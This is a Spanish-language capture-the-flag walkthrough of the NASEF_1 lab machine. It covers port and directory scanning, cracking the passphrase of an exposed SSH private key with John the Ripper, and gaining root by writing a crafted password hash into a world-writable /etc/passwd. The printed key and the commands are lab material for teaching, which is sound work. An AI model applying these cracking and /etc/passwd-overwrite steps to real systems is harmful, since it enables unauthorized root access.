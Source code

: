 # NASEF\_1 LOCATING TARGET

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-13 10:05 CEST
Nmap scan report for 192.168.5.134
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8f:ec:55:07:54:78:a4:ee:8e:d7:95:41:62:74:77:8e (RSA)
|   256 7c:67:19:8b:bf:73:b4:7f:82:64:df:d5:7b:ad:34:a4 (ECDSA)
|_  256 a1:e7:61:a1:cc:6b:16:10:1c:71:fa:54:ed:89:fd:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:CE:93:AA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.72 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.134/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecList/Web/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/goodmath.txt         (Status: 200) [Size: 2571]
Progress: 882236 / 882240 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a ese `.txt` veremos lo siguiente...

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6A4D21879E90C5E2F448418E600FE270

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
-----END RSA PRIVATE KEY-----

Here is your key agentr
```

Vemos que es una `id_rsa` por lo que se ve tiene contraseña, por lo que haremos lo siguiente...

```shell
ssh2john id_rsa > sshkey
```

```shell
john --wordlist=<WORDLIST> sshkey
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
reading          (id_rsa)     
1g 0:00:00:00 DONE (2024-07-13 10:15) 2.173g/s 6678p/s 6678c/s 6678C/s kikay..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que la contraseña es `reading` por lo que haremos lo siguiente...

```shell
chmod 600 id_rsa
```

Vemos que en el `.txt` nos dijo un nombre por lo que probaremos con ese nombre `agentr`...

```shell
ssh -i id_rsa agentr@<IP>
```

Metemos la contraseña del `id_rsa` y ya estariamos dentro con el usuario `agentr`...

Leeremos la flag del la `/home`...

> user.txt (flag1)

```
[Arabic]
الإحداثيات الأولى هي 25 درجة شمالا

[English]
The First coordinate is 25.0000° N
```

Si vemos los permisos del siguiente archivo...

```shell
ls -la /etc/passwd
```

Info:

```
-rw-r--rw- 1 root root 1763 Dec 24  2020 /etc/passwd
```

Vemos que podemos escribir, por lo que haremos lo siguiente...

Nos descargaremos la siguiente herramienta creada por mi (@d1se0) en github...

URL = https://github.com/D1se0/passwordGenerator

```shell
python3 passwordGenerator.py -l 3 -e unix_passwd
```

o

```shell
passwordGenerator -l 3 -e unix_passwd
```

Info:

```
 ____                        _  ____                                      
 |  _ \  __ _ ___  ___       | |/ ___|  __ _ _ __ ___   __ _ _ __ _   _ ___ 
 | | | |/ _` / __|/ _ \  _   | | |  _  / _` | '_ ` _ \ / _` | '__| | | / __|
 | |_| | (_| \__ \  __/ | |__| | |_| | (_| | | | | | | (_| | |  | |_| \__ \
 |____/ \__,_|___/\___|  \____/ \____|\__,_|_| |_| |_|\__,_|_|   \__,_|___/
passwordGenerator v1.0
by Diseo (@d1se0) 

Contraseña Generada: v4l

Contraseña codificada (UNIX_PASSWD): $6$rounds=656000$bbwClv8EHMh/evoj$8vAkS.wJphWsDfdteK1sIc8eebShfmUMHhKEQQvmm3N4rEPCC5uzjTVaK2uarnB8/qIQHYtpZ8l/g1ur54VKL1
```

Generara una contraseña aleatoria poniendo el numero de letras que quiere que tenga en mi caso solo 3 para que sea corta y codificarlo en `unix_passwd`, por lo que ese codigo codificado es lo que tenemos que pegar en el `/etc/passwd` de la siguiente manera...

```shell
nano /etc/passwd

#Dntro del nano
root:$6$rounds=656000$bbwClv8EHMh/evoj$8vAkS.wJphWsDfdteK1sIc8eebShfmUMHhKEQQvmm3N4rEPCC5uzjTVaK2uarnB8/qIQHYtpZ8l/g1ur54VKL1:0:0:root:/root:/bin/bash
```

Quedara algo tal que asi, por lo que lo guardamos e intentamos ser `root` poniendo esa contraseña generada en mi caso `v4l`...

```shell
su root
```

Y si metemos la contraseña sin codificar veremos que seremos `root`...

```shell
id
```

Info:

```
uid=0(root) gid=0(root) groups=0(root)
```

Por lo que leeremos la flag...

> root.txt (flag2)

```
[ARABIC]
الإحداثيات الثانية هي 71 درجة غربا


[ENGLISH]
The Second coordinate is 71.0000° W
```
